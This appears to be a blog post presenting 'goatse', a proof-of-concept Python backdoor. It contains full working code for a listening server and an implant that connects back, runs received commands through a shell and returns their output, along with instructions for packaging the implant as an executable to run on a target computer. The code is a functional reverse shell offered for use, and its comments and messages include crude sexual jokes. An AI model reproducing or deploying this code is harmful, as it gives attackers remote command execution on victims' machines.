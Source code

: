```yaml
---
layout: post
title:  "Proof of Concept Python Backdoor"
date:   2020-09-11 6:00:00 +0800
categories: coding
---
```

<img style="width: inherit;" src="http://hits.dwyl.com/dev-yakuza.github.io{{ https://adrianducao.github.io/coding/2020/09/10/Proof-of-Concept-Python-Backdoor.html }}.svg" alt="hit count image"/>

# goatse
a proof of concept backdoor for the most bare-bone access

## Usage
Run the server.py on your computer to start listening for callbacks.
```bash
$ sudo chmod 775 server.py
$ ./server.py
```

3 ways you can start goatse to target computer
1. run as python script
```bash
$ sudo chmod 775 goatse.py
$ ./goatse.py
```
2. create an exe file using pyinstaller, exe file is located in dist folder
```
$ pyinstaller --onefile goatse.py
```

## How does it work?
server.py
```
#!/usr/bin/env python3

#import socket API module
import socket

# for LAN you can use your pc's ip.
# for WAN you need to setup your own server in aws or digital ocean get the IP of said server and you can just ssh to that machine and run this script. other option is to use your own ISP public ip address and port forward to your pc's ip address.
serverIp = '192.168.1.1'
serverPort = 8080 
server = socket.socket()
server.bind((serverIp, serverPort))
print('Server is online')
print('Listening for callback')

#listening for callback
server.listen(1)
target, target_addr = server.accept()

#will display once callback is initiated
print(f'[+] {target_addr} She spreads the legs, it is time')


```
goatse.py
```
#!/usr/bin/env python3

#import socket and subprocess modules, subprocess module allows us to run commands on our target machine.
import subprocess
import socket


#don't forget to set the correct server ip address and port in order for this to callback home.
serverIp = '192.168.1.1'
serverPort = 8080
backdoor = socket.socket()
backdoor.connect((serverIp, serverPort))

while True:
    #after successfull callback to home, goatse will start to listen for commands from server
    anal = backdoor.recv(1024)
    
    #this decodes the user command from sent from server
    anal = anal.decode()
    UserInput = subprocess.Popen(anal, shell = True, stderr = subprocess.PIPE, stdout = subprocess.PIPE)
    
    #then executes command and read the output/error
    output = UserInput.stdout.read()
    output_error = UserInput.stderr.read()
    backdoor.send(output + output_error)
```

## License
[BSD 3-Clause “New” or “Revised” License](https://choosealicense.com/licenses/bsd-3-clause/)

### Resources:
[Github Repo](https://github.com/AdrianDucao/goatse)

Happy Coding.
